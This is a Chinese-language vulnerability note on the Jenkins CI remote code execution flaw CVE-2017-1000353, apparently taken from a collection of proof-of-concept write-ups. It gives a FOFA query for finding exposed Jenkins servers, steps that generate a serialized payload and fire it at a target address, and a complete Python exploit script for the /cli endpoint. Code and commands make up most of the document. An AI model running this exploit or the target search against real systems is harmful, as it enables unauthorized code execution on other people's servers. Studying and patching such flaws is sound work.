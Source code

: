# Jenkins CI 远程代码执行漏洞 CVE-2017-1000353

## 漏洞描述

攻击者可以将序列化的Java SignedObject对象，传输到基于远程处理的Jenkins CLI，这将最终造成反序列化，进而绕过现有基于黑名单的保护机制。Altoros Jenkins for PCF 1.0.2之前所有版本都受影响，所有用户尽快升级

## 漏洞影响

```
Jenkins
```

## FOFA

```
app="Jenkins"
```

## 漏洞复现

登录页面

![image-20220525162902206](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251629259.png)


生成 `jenkins_poc.ser`

```
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
```

![image-20220525162914989](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251629054.png)

使用Python脚本命令执行

```
https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py
python3 jenkins.py http://xxx.xxx.xxx.xxx:8080 jenkins_poc.ser
```

![image-20220525162927283](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251629446.png)

成功生成 success

![image-20220525162939142](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251629255.png)

## 漏洞POC

```python
import urllib
import sys
import requests
import uuid
import threading
import time
import gzip
import urllib3
import zlib

proxies = {
# 'http': 'http://127.0.0.1:8085',
# 'https': 'http://127.0.0.1:8090',
}

URL = '%s/cli' % sys.argv[1].rstrip('/')

PREAMLE = b'<===[JENKINS REMOTING CAPACITY]===>rO0ABXNyABpodWRzb24ucmVtb3RpbmcuQ2FwYWJpbGl0eQAAAAAAAAABAgABSgAEbWFza3hwAAAAAAAAAH4='
PROTO = b'\x00\x00\x00\x00'

with open(sys.argv[2], "rb") as f:
    FILE_SER = f.read()

def download(url, session):

    headers = {'Side' : 'download'}
    headers['Content-type'] = 'application/x-www-form-urlencoded'
    headers['Session'] = session
    headers['Transfer-Encoding'] = 'chunked'
    r = requests.post(url, data=null_payload(), headers=headers, proxies=proxies, stream=True, verify=False)
    print(r.content)


def upload(url, session, data):

    headers = {'Side' : 'upload'}
    headers['Session'] = session
    headers['Content-type'] = 'application/octet-stream'
    headers['Accept-Encoding'] = None
    r = requests.post(url,data=data,headers=headers,proxies=proxies, verify=False)


def upload_chunked(url,session, data):

    headers = {'Side' : 'upload'}
    headers['Session'] = session
    headers['Content-type'] = 'application/octet-stream'
    headers['Accept-Encoding']= None
    headers['Transfer-Encoding'] = 'chunked'
    headers['Cache-Control'] = 'no-cache'

    r = requests.post(url, headers=headers, data=create_payload_chunked(), proxies=proxies, verify=False)


def null_payload():
    yield b" "

def create_payload():
    payload = PREAMLE + PROTO + FILE_SER

    return payload

def create_payload_chunked():
    yield PREAMLE
    yield PROTO
    yield FILE_SER

def main():
    print("start")

    session = str(uuid.uuid4())

    t = threading.Thread(target=download, args=(URL, session))
    t.start()
    
    time.sleep(2)
    print("pwn")
    #upload(URL, session, create_payload())

    upload_chunked(URL, session, "asdf")

if __name__ == "__main__":
    main()
```
